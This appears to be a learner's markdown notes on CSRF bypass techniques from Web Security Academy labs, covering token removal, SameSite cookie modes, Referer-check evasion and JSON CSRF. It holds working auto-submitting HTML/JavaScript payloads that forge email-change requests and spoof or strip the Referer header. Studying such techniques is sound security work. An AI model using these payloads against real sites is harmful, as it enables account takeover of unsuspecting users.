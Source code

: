 ### 3 conditons : 

-a relevant action
-cookie based session handling
-no unpredictable request parameters

#### csrf token : 
- sometimes you can remove it 
- change the request  method ( POST => GET)
- get the csrf cookie frome another user 
- if it use doble csrf token,the same thing try get them from another user



### SameSite cookie : 
value : none,lax,strict


lax : if you can change it to get method you can bypasse it. example:

```
`<script>
document.location="https://my-account/change-email?email=hackercsrf%40gmail.com&_method=POST"

</script>`
```

strict : if you try to access to the website from another website you will have not the cookie to access
lax : you will have the cookie but you can not jib kach 3fsa mn 3ndo to your website
none : do anything do you wan

---
#### bypass referer validation : 

- if they check the referer and accept just their own , try to remove the header , if it works , we can using HTML Form to remove the header and ewploit the CSRF .

```<head>
<meta name="referrer" content="no-referrer">
</head>

<form method="POST" action="https://0a25004d04bdab2b80ea039e009f0066.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hello@hdhhhhdh.cot">
</form>
<script>
        document.forms[0].submit();
</script>``
````````

- if they validate that it need just to contain the old referer ( victim.com ) , we can bypass it just like : 
	Referer: attaker.com/? victim.com ( without space ) .

**javascript role : 

<form method="POST" action="https://0ade003003df4de482db0b7b00db0029.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="ccacca@hello.com">
</form>
```
`<form method="POST" action="https://0ade003003df4de482db0b7b00db0029.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="ccacca@hello.com">
</form>`

<script>
        history.pushState("", "", "/?0ade003003df4de482db0b7b00db0029.web-security-academy.net")
        document.forms[0].submit();
</script>
```

and add this header : **Referrer-Policy: unsafe-url**


---

### CSRF with JSON : 

if they accept content type : **text/plain** , you can do it ( just search about it ) .